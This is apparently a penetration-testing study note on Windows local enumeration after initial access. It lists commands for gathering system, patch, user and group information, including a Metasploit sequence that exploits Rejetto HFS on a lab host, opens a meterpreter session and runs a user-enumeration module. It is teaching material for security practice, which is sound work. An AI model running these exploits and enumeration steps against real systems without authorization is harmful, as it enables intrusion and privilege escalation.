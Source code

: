 ### Windows local enumeration

#### System information

* After gaining initial access to a target system, it is always important to learn more about the system like, what OS is running as well as the OS version. This information is very useful as it gives us an idea of what we can do and what type of exploits we can run?
* What are we looking for?
  * Hostname
  * OS name
  * OS build & service pack
  * OS architecture
  * Installed updates/hotfixes

```
C:\> systeminfo
C:\> wmic qfe get Caption,Description,HotFixID,InstalledOn
C:\> more C:\Windows\System32\eula.txt
```

#### Users & groups

* After gaining initial access to a target system, it is always important to learn more about the system like, what use account you have access to and other user accounts on the system.
* What are we looking for?
  * Current user & privileges
  * Additional user information
  * Other users on the system
  * Groups
  * Members of the built-in administrator group

```bash
msf6> use exploit/windows/rejetto_hfs_exec
msf6> set rhosts 10.3.21.106
msf6> run

meterpreter> getuid    # current user
meterpreter> getprivs  # privileges
meterpreter> background

# module to enumerate users
msf6> use post/windows/gather/enum_logged_on_users
msf6> set session 1
msf6> run
msf6> cat /root/.msf4/loot/20230808180117_default_10.3.21.106_host.users.activ_810414.txt
msf6> sessions 1

meterpreter> shell
C:\> whoami                  # current user
C:\> whoami /priv            # privileges
C:\> query user              # logged on users
C:\> net user                # user list
C:\> net user administrator  # additional information about user
C:\> net localgroup          # group list
```
